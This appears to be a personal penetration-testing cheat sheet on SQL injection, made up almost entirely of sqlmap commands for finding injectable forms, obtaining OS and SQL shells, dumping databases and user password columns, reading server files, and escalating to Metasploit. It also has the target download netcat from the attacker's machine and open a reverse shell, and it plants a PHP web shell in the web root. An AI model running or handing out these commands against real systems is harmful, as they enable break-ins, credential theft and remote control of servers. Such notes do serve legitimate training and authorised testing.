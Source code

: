 ```yaml
---
category: Uncategorized
tags: []
---
```

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

#### Crawl and discover SQL injections
```bash - kali
sqlmap -u http://$TARGET --forms --batch --crawl=10 --cookie=PHPSESSID=rqh1ck98suududihja1sl4ljck --level=5 --risk=3
```

#### os-shell with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-shell --fresh-queries
```

Choose an architecture, if you get "no output", redo, try other architecture.

Kali:
```bash - kali
cp /usr/bin/nc .
```

```bash - target
wget "http://$KALI/nc" -O /tmp/nc
```

```bash - target
chmod +x /tmp/nc
```

![[rlwrap]]

```bash - target
/tmp/nc -e /bin/bash $KALI 443
```

#### sql-shell
In this example, we enumerate the tables with sqlmap
```bash - kali
proxychains sqlmap -u "$TARGET?id=1" -p job --sql-shell
```

```SQL - target
select user,password from mysql.user;
```

#### Password Cracking
```bash - kali
sqlmap -u $TARGET?id=1 --password --batch
```

#### File System Access
```bash - kali
sqlmap -u $TARGET?id=1 --privileges --batch
```

```bash - kali
sqlmap -u $TARGET?id=1 --current-user --batch
```

Test the following with /etc/passwd if Unix target.
```bash - kali
sqlmap -u $TARGET?id=1 --file-read=/xampp/htdocs/index.php --batch
```

Test the following with [[Port 22 - SSH  ~#Generate key upload to victim]].
```bash - kali
sqlmap -u $TARGET?id=1 --file-write=/root/Desktop/shell.php --file-dest=/xampp/htdocs/shell.php --batch
```


#### Show databases with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --dbs --thread 5
```

![[Pasted image 20220226224727.png]]

#### Dump Databases

Retrieve DBs:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 --dbs
```

Dump entire Database:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --dump
```

Retrieve Tables:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db --tables
```

Dump entire Table:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --dump
```

Retrieve Columns:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts --columns
```

Dump Columns data:
```bash - kali
sqlmap -u http://$TARGET/blog/single.php?id=1 -D blog_admin_db -T banner_posts -C id,stats,title --dump
```

#### Show tables with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D information_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D mysql --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D  vperformance_schema --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D sys --tables
```

```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --tables
```

#### Show columns with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm --T users --columns
```

#### Dump column data with body data
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --thread 5 -D zm -T Users -C Username,Password --dump
```

#### SQLMAP to Metasploit
```bash - kali
sqlmap http://$TARGET/zm/index.php --data="view=request&request=log&task=query&limit=100&minTime=5" --os-pwn --thread 5
```













